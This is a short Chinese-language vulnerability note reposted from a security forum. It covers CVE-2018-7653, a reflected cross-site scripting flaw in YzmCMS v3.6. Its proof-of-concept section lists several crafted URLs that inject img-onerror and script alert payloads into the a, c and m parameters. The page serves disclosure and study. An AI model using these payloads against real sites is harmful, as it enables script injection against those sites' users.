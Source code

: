# （CVE-2018-7653）YzmCMS v3.6 xss漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3304](https://www.zhihuifly.com/t/topic/3304)

# （CVE-2018-7653）YzmCMS v3.6 xss漏洞

## 一、漏洞简介

YzmCMS是中国程序员袁志蒙开发的一套开源的CMS（内容管理系统）。 YzmCMS 3.6版本中存在跨站脚本漏洞。远程攻击者可借助‘a’、‘c’或‘m’参数利用该漏洞注入任意的Web脚本或HTML。

## 二、漏洞影响

YzmCMS v3.6

## 三、复现过程

### poc

```
http://www.0-sec.org/YzmCMS/index.php?m=search&c=index&a=initxqb4n%3Cimg%20src%3da%20onerror%3dalert(1)%3Ecu9rs&modelid=1&q=tes 

[http://www.0-sec.org/YzmCMS/index.php?m=search&c=indexf9q6s<img%20src%3Da%20onerror%3Dalert(1)>j4yck&a=init&modelid=1&q=tes](http://www.0-sec.org/YzmCMS/index.php?m=search&c=indexf9q6s%3cimg%20src%3da%20onerror%3dalert(1)%3ej4yck&a=init&modelid=1&q=tes)

[http://www.0-sec.org/YzmCMS/index.php?m=searchr81z4<img%20src%3Da%20onerror%3Dalert(1)>o92wf&c=index&a=init&modelid=1&q=tes](http://www.0-sec.org/YzmCMS/index.php?m=searchr81z4%3cimg%20src%3da%20onerror%3dalert(1)%3eo92wf&c=index&a=init&modelid=1&q=tes) `[http://www.0-sec.org/YzmCMS/index.php?m=search&c=index&a=init&modelid=1b2sgd"><script>alert(1)<%2Fscript>opzx0&q=tes](http://www.0-sec.org/YzmCMS/index.php?m=search&c=index&a=init&modelid=1b2sgd%22%3e%3cscript%3ealert(1)%3c%2fscript%3eopzx0&q=tes)` 
```

## 参考链接

> https://www.anquanke.com/vul/id/1124944